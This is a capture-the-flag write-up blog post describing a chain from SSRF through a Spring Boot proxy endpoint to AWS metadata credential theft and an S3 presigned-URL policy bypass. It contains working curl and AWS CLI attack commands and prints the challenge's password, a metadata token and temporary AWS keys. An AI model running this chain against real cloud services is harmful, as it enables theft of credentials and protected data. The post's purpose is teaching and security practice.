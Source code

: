 ```yaml
---
layout: post
title: "Wiz CTF June 2025: SSRF & AWS Credential Escalation"
date: 2025-07-10
categories: [ctf, security]
tags: [ctf, security, ssrf, aws, cloud-security, pentesting]
excerpt: "Exploiting Server-Side Request Forgery (SSRF) through Spring Boot Actuator to access AWS services, bypass data perimeter controls, and extract protected files using presigned URLs."
---
```


## Challenge Overview

In this Wiz CTF challenge, I exploited a Server-Side Request Forgery (SSRF) vulnerability via the `/proxy?url=` endpoint in a Spring Boot Actuator application. This allowed me to make internal requests to AWS services, access the Instance Metadata Service (IMDSv2), and ultimately bypass a data perimeter to retrieve a protected flag.

## Vulnerability Exploited

**Server-Side Request Forgery (SSRF)** combined with:
- AWS Instance Metadata Service (IMDSv2) access
- Misconfigured S3 bucket policies
- Presigned URL generation

## Attack Steps

### 1. Endpoint Discovery

First, I mapped the available endpoints using Spring Boot Actuator:

```bash
curl -u ctf:88sPVWyC2P3p https://challenge01.cloud-champions.com/actuator/mappings
```

This revealed the vulnerable `/proxy` endpoint:
```json
"patterns": [ "/proxy" ],
"params": [ { "name": "url" } ],
"handler": "challenge.Application#proxy(String)"
```

### 2. AWS Metadata Access

Next, I exploited the SSRF to access the AWS Instance Metadata Service:

```bash
# Get metadata token
curl -u ctf:88sPVWyC2P3p \
  -X PUT \
  "https://challenge01.cloud-champions.com/proxy?url=http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"
```

```bash
# Retrieve IAM role name
curl -u ctf:88sPVWyC2P3p \
  "https://challenge01.cloud-champions.com/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/" \
  -H "X-aws-ec2-metadata-token: AQAEABCrJRHxImsxH1JVhUFrWPUuZSFBVBq6ShBgOv8IpfjYeeNY1g=="
```

Result: `challenge01-5592368`

### 3. AWS Credentials Extraction

Using the role name, I extracted temporary AWS credentials:

```bash
curl -u ctf:88sPVWyC2P3p \
  "https://challenge01.cloud-champions.com/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/challenge01-5592368" \
  -H "X-aws-ec2-metadata-token: AQAEABCrJRHxImsxH1JVhUFrWPUuZSFBVBq6ShBgOv8IpfjYeeNY1g=="
```

This returned temporary AWS credentials including:
- Access Key ID: `ASIARK7LBOHXDFXXHGYE`
- Secret Access Key: `HtRUNKtijoKBAcec9fi0d5JGD8OG2fnjLG4lYSnp`
- Session Token: `[truncated for brevity]`

### 4. S3 Bucket Exploration

With the credentials, I explored the S3 bucket:

```bash
aws s3 ls s3://challenge01-470f711 --profile temp-creds
# Result: PRE private/ and hello.txt

aws s3 ls s3://challenge01-470f711/private/ --profile temp-creds
# Result: flag.txt
```

### 5. Bypass Attempt #1: Direct Access (Failed)

Direct access to the flag was blocked by bucket policy:

```bash
aws s3 cp s3://challenge01-470f711/private/flag.txt ./ --profile temp-creds
# Result: fatal error: An error occurred (403) when calling the HeadObject operation: Forbidden
```

### 6. Bypass Technique: Presigned URL + SSRF

I generated a presigned URL for the protected file:

```bash
aws s3 presign s3://challenge01-470f711/private/flag.txt --profile temp-creds
```

Then used the SSRF vulnerability to access the presigned URL through the vulnerable proxy endpoint:

```bash
curl -u ctf:88sPVWyC2P3p \
  "https://challenge01.cloud-champions.com/proxy?url=https%3A%2F%2Fchallenge01-470f711.s3.amazonaws.com%2Fprivate%2Fflag.txt%3F[URL-encoded-presigned-parameters]"
```

## Key Takeaways

This challenge demonstrated a sophisticated attack chain combining:

1. **SSRF Discovery**: Finding the vulnerable proxy endpoint through actuator mappings
2. **Cloud Metadata Abuse**: Leveraging IMDSv2 to extract AWS credentials
3. **Policy Bypass**: Using presigned URLs to circumvent bucket-level deny policies
4. **Request Routing**: Using the original SSRF vulnerability to make the presigned request appear to come from the authorized backend server

The attack succeeded because:
- The proxy endpoint had no URL filtering
- IMDSv2 was accessible from the application
- The S3 bucket policy only denied direct external access, not requests from the backend server
- Presigned URLs were generated with the backend's legitimate credentials

This highlights the importance of:
- Strict input validation on proxy endpoints
- Proper IMDSv2 security configurations
- Comprehensive S3 bucket policies that account for different attack vectors
- Network segmentation and least privilege access controls